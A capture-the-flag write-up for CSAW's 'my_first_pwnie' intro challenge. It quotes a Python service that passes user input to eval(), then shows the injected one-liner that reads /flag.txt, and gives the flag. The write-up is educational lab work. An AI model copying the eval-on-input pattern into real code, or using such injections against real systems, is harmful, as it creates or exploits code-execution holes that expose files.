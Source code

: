# my_first_pwnie
## Category: Intro
## Author: ElykDeer

# Description

>You must be this 👉 high to ride.
>Note: flag is in /flag.txt

# Solution

We are given a python file and netcat credentials to a server running the code.
Besides some comments in the file, we have this code:

>try:
>  response = eval(input("What's the password? "))
>  print(f"You entered `{response}`")
>  if response == "password":
>    print("Yay! Correct! Congrats!")
>    quit()
>except:
>  pass
>
>print("Nay, that's not it.")
 

In one of the comments, we are being told to execute arbitrary commands.      
What immidiatly comes to mind when reading the code, is the eval() function. This allows us to use a one-liner to get the flag.
The goal of our one-liner is to read /flag.txt.

After quite some tries of experimenting, I finally got the flag, by inputing:

>print(open('/flag.txt', 'r').read())

Explanation: This is a compacter version of the "usual" way to read a file in python:

>with open('/flag.txt', 'r') as file:
>       content = file.read()
>       print(content)

After using the one-liner, part of the output is the flag:

>csawctf{neigh______}

# Flag

>csawctf{neigh______}

